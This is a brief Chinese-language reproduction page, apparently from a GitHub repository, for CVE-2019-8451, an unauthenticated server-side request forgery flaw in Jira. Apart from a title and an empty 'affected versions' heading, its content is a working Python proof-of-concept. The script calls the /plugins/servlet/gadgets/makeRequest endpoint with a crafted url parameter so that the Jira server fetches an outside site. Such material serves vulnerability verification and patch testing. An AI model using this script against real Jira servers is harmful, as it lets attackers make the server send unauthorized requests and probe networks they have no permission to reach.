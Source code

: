 # （CVE-2019-8451）Jira未授权SSRF漏洞验证

## 一、漏洞简介

（CVE-2019-8451）Jira未授权SSRF漏洞验证

## 二、影响范围

## 三、复现过程

![image](images/img1.png)

https://github.com/ianxtianxt/CVE-2019-8451

```python
#coding:utf-8
import requests

host = 'http://xx.xx.xx.xx:8080'
header = {
                        'X-Atlassian-Token': 'no-check',
                        'Connection': 'close'
                }

url = host + '/plugins/servlet/gadgets/makeRequest?url='+host+'@www.baidu.com/'
html = requests.get(url = url,headers = header)
print html.text
```
